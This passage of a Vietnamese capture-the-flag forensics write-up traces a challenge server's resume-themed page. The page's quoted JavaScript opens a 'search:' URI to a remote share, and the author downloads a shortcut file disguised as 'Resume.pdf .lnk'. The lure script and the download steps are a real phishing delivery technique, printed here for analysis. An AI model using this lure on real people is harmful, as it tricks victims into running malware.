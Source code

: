 Sau khi dùng curl request đến `storage.microsoftcloudservices.com:[PORT]/index.php` mình nhận thấy đoạn cuối của response có đoạn mã JS dẫn đến 1 đường link nữa, có thể đây sẽ là manh mối tiếp theo
```javascript
function getResume() {
      window.location.href=`search:displayname=Downloads&subquery=\\\\${window.location.hostname}@${window.location.port}\\3fe1690d955e8fd2a0b282501570e1f4\\resumes\\`;
    }
```

Có vẻ như flag được lưu tại `http://storage.microsoftcloudservices.com:[port]/3fe1690d955e8fd2a0b282501570e1f4/resumes/`

Mình sẽ thử dùng curl xem server sẽ trả về gì
```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /3fe1690d955e8fd2a0b282501570e1f4/resumes</title>
 </head>
 <body>
<h1>Index of /3fe1690d955e8fd2a0b282501570e1f4/resumes</h1>
<ul><li><a href="/3fe1690d955e8fd2a0b282501570e1f4/"> Parent Directory</a></li>
<li><a href="Resume.pdf%20.lnk"> Resume.pdf .lnk</a></li>
</ul>
</body></html>
```

Nice, vậy chúng ta sẽ tải file về và xem có flag không
```bash
$ curl "http://storage.microsoftcloudservices.com:[port]/3fe1690d955e8fd2a0b282501570e1f4/resumes/Resume.pdf%20.lnk" -o resume.lnk
```
![anewhire1](/assets/images/HTB-Apocalypse/Forensics/forensics_a_new_hire/anewhire1.png)
